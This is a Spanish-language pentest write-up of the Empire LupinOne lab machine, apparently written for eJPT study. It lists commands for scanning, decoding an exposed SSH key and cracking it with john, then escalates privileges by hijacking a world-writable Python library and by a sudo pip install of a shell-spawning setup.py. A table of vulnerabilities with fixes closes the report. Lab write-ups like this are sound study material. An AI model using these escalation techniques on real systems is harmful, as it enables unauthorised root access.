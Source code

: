 # Informe de Pentesting - Empire LupinOne

**Máquina:** Empire LupinOne
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Evaluar la seguridad de una máquina con múltiples capas de ocultamiento, servicios HTTP y clave privada SSH vulnerable.

---

## 🛰️ Recolección de Información

* Red: 192.1.1.0/24
* IP objetivo: 192.1.1.9
* Escaneo:

```bash
nmap -p- -sV -sS -Pn -n 192.1.1.9
```

---

## 🔎 Enumeración

### Puerto 80 - HTTP

* Se encuentra referencia a `~mifiles` y luego a `~secret`
* Acceso a fichero `.mysecret.txt` con clave en base58

### Decodificación

```bash
base58 -d .mysecret.txt > private.key
```

* Clave convertida con `ssh2john` y crackeada con `john`:

```bash
ssh2john private.key > hash
john hash --wordlist=rockyou.txt
```

* Usuario: `icex64`, Contraseña: `P@55w0rd!`

---

## 💥 Explotación

### SSH acceso con clave:

```bash
chmod 600 private.key
ssh -i private.key icex64@192.1.1.9
```

---

## ⬆️ Escalado de Privilegios

### Paso 1: Escalada a `arsene`

* Usuario puede ejecutar `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
* `heist.py` usa `webbrowser` con permisos 777
* Se edita `webbrowser.py` para ejecutar shell:

```python
subprocess.run(["bash"])
```

### Paso 2: Escalada a root via pip

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

---

## 🚨 Vulnerabilidades Detectadas

| ID | Vulnerabilidad                              | Nivel   | Recomendación                                   |
| -- | ------------------------------------------- | ------- | ----------------------------------------------- |
| 1  | SSH key expuesta y cifrada públicamente     | Crítico | No exponer claves privadas ni siquiera cifradas |
| 2  | Permisos 777 sobre librerías usadas en sudo | Alto    | Eliminar permisos globales de escritura         |
| 3  | Acceso a pip con root                       | Crítico | Limitar ejecución de pip con sudo               |

---

## ✅ Conclusiones

* Acceso inicial mediante clave SSH oculta y cifrada
* Escalada utilizando vector poco común: librería Python editable
* La explotación de `pip` permite obtener root con facilidad

> Una máquina interesante para entender la relación entre configuración insegura, entorno Python y escalado creativo.
